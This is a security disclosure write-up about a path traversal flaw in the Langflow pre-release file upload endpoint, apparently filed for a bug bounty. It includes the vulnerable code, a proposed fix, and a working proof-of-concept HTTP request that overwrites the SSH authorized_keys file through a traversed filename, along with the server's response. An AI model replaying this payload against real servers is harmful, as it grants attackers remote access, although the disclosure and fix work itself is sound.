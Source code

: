 ```yaml
---
layout: post
title:  "Remote Code Execution via Arbitrary File Overwrite Using Path Traversal in langflow Pre-release(No Response)"
date:  2024-05-26 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Remote Code Execution via Arbitrary File Overwrite Using Path Traversal in Langflow Pre-release.


## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> Pre-release version: 1.0 Alpha - v1.0.0a37

## Description

The post `/upload/{flow_id}` endpoint in the Langflow [upload_file](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/api/v1/files.py#L47) is vulnerable to a path traversal vulnerability through the `filename` parameter which allows the uploading of arbitrary files. The `filename` is then directly append to a directory path [without sanitized](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/services/storage/local.py#L34) and the file content is writen to dest location. An attacker can upload and overwrite ANY file on the filesystem. This can lead to remote code execution in many different ways.

The vulnerable function [`save_file`](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/services/storage/local.py#L34):
```
async def save_file(self, flow_id: str, file_name: str, data: bytes):
        folder_path = self.data_dir / flow_id
        folder_path.mkdir(parents=True, exist_ok=True)
        file_path = folder_path / file_name

        try:
            with open(file_path, "wb") as f:
                f.write(data)
            logger.info(f"File {file_name} saved successfully in flow {flow_id}.")
        except Exception as e:
            logger.error(f"Error saving file {file_name} in flow {flow_id}: {e}")
            raise e
```

## Proof of Concept

In this proof of concept, we will be gaining remote code execution by uploading our SSH key to the `authorized_keys` file. There are many other ways to achieve remote code execution via a file upload, such as overwriting binaries, writing to .bashrc, ....

We proof this vulnerability by logging into the `kali` user running the langflow python API and checking that at this moment the `/home/kali/.ssh/authorized_keys` file does not exist.

```
kali@fc7d9ff6a411:/# cat /home/kali/.ssh/authorized_keys
cat: /home/kali/.ssh/authorized_keys: No such file or directory
```

An attacker can now send the following request to the webserver. This request will upload the attacker's public RSA key to the `authorized_keys` file.

We start a simple server using tutorial from [https://github.com/langflow-ai/langflow?tab=readme-ov-file#-installation](https://github.com/langflow-ai/langflow?tab=readme-ov-file#-installation). Note that we use pre-release versoin:

```
# Install the pre-release version
python -m pip install langflow --pre --force-reinstall
```
Start web interface, the default port is `7860`

```
python -m langflow run
```

Then open the Langflow web interface in browser, create a new project and in the project add a file component, click the file upload button, select random text file with burpsuite intercepting the upload request. We can see the file name and file content in the multipart request body. 

![file-component](/assets/images/bughunter/langflow/file-component.png)

![file-upload](/assets/images/bughunter/langflow/file-upload.png)


Change the multipart `filename` to `../../../../../../../../../home/kali/.ssh/authorized_keys` and file content to our `authorized_keys` content. Repeat the upload request.

```
POST http://127.0.0.1:7860/api/v1/files/upload/7e774022-0991-47f7-83a1-ef127d439755 HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJjODFiMWM1Yy1lYzgxLTRkZmQtOGFiZS0yMGIxNDBmOWY3NjkiLCJleHAiOjE3NDgyMjk3NDJ9.PrPNZGIOgBql3mDBTWqmdpg4G1zYeaB-087GH5NHvYE
Cache-Control: no-cache
Connection: close
Cookie: access_token_lf=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJjODFiMWM1Yy1lYzgxLTRkZmQtOGFiZS0yMGIxNDBmOWY3NjkiLCJleHAiOjE3NDgyMjk3NDJ9.PrPNZGIOgBql3mDBTWqmdpg4G1zYeaB-087GH5NHvYE
Origin: http://127.0.0.1:7860
Pragma: no-cache
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Host: 127.0.0.1:7860
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=--------------------------636165805457578805665550
Content-Length: 647

----------------------------636165805457578805665550
Content-Disposition: form-data; name="file"; filename="../../../../../home/kali/.ssh/authorized_keys"
Content-Type: application/octet-stream

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
----------------------------636165805457578805665550--
```

The response indicates success with the uploaded file path.

```
HTTP/1.1 201 Created
Connection: close
Content-Length: 146
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://127.0.0.1:7860
Content-Type: application/json
Date: Sun, 26 May 2024 03:48:37 GMT
Server: uvicorn
Vary: Origin

{"flowId":"7e774022-0991-47f7-83a1-ef127d439755","file_path":"7e774022-0991-47f7-83a1-ef127d439755/../../../../../home/kali/.ssh/authorized_keys"}
```

We can verify the success by again checking the `/home/kali/.ssh/authorized_keys` file.

```
kali@fc7d9ff6a411:/# cat /home/kali/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
```

## Fix

Use [UUID instead of origin file name to store the file](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/api/v1/files.py#L47):

```
@router.post("/upload/{flow_id}", status_code=HTTPStatus.CREATED)
async def upload_file(
    file: UploadFile,
    flow_id: UUID = Depends(get_flow_id),
    storage_service: StorageService = Depends(get_storage_service),
):
    try:
        flow_id_str = str(flow_id)
        file_content = await file.read()
        # fix the path travesal problem
        file_name = hashlib.sha256(file_content).hexdigest()
        folder = flow_id_str
        await storage_service.save_file(flow_id=folder, file_name=file_name, data=file_content)
        return UploadFileResponse(flowId=flow_id_str, file_path=f"{folder}/{file_name}")
    except Exception as e:
        raise HTTPException(status_code=500, detail=str(e))
```

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.


### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)

### Any bounty

Can I ask for a bug bounty award or a CVE id for this bug? Thank you very much!

## Reference

[https://huntr.com/bounties/6be8d4e3-67e6-4660-a8db-04215a1cff3e](https://huntr.com/bounties/6be8d4e3-67e6-4660-a8db-04215a1cff3e)

## Occurrences

[https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/api/v1/files.py#L47](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/api/v1/files.py#L47)

[https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/services/storage/local.py#L34](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/services/storage/local.py#L34)
